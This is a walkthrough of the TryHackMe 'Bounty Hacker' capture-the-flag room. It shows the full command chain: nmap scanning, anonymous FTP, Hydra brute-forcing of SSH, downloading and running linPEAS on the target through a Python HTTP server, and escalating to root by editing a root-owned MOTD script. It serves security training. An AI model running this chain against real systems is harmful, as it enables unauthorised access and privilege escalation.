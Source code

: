 # Bounty Hacker

## Disclaimer

This writeup is for a room located on TryHackMe. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the _Deploy_ button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using personal Linux machine, remember to use OpenVPN):

```
nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
ftp ${MachineIP}
```

To log into the ftp server, we will be using the _anonymous_ username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the _dir_ directory. We notice there's a text file called _task.txt_. We can view this file directly in the ftp terminal using the following command:

```
get task.txt -
```

We now have our username!

After finding this task.txt file, we will notice there is another file called locks.txt, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on port 22 (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that locks.txt file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
sudo -l
```

After we run a simple command to see the available items in the directory, we see the user.txt file, which has our first flag!

Commands:

```
ls
cat user.txt
```

# Task 7

All that's left is to find the root.txt and complete the CTF!

The easiest way to accomplish this is by using linPEAS & a python server, so we're gonna start by getting a python server up and running with the command (Remember to do this in your root terminal, not as the user!):

```
sudo python3 -m http.server 80
```

Now to actually obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
mkdir LinEnum
cd LinEnum
wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal, and since we have it saved on our server, let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
wget "http://${PrivateIP}/linpeas.sh"
```

To make our linPEAS script executable, we simply do this command (Notice the color change when we run this command):

```
chmod +x linpeas.sh
```

Time to run the script!

```
./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called _/etc/update-motd.d/00-header_ (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the 00-header file we found is actually owned by root.

The easiest way to do this is by using nano:

```
nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through ssh, we will see the root.txt!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

_ctrl + x to save the file_

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the root.txt flag is located directly in the login terminal screen!

```
ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called Cowboy Bebop (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).

## YouTube Version

I will be posting a video covering this writeup very soon!
